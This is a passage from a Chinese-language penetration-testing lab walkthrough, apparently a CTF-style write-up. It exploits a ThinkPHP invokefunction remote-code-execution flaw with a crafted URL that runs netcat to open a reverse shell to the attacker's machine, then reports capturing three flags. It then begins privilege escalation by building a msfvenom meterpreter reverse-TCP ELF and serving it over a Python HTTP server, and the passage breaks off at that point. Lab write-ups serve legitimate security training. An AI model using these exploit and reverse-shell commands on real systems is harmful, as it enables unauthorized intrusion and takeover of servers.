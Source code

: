 反弹shell:

```plain
http://192.168.179.161/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=nc 192.168.179.155 4444 -e /bin/bash
```

kali开启对4444端口监听，浏览器执行该http请求，得到shell，并找到3个flag:

[![](assets/1705981930-1c13f7a432db0fdc06faf7f77a09bc19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143248-e52302b2-b826-1.png)

### 2.3提权

内核是x86，使用mefvenom生成一个可执行的shell

```plain
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.179.155 lport=6789 -f elf -o shell.elf
```

生成完后，kali使用python开启http服务

```plain
python -m SimpleHTTPServer 8080
```

[![](assets/1705981930-da7c330b5be516de8cb3d6a4a434df28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143306-efa3909e-b826-1.png)

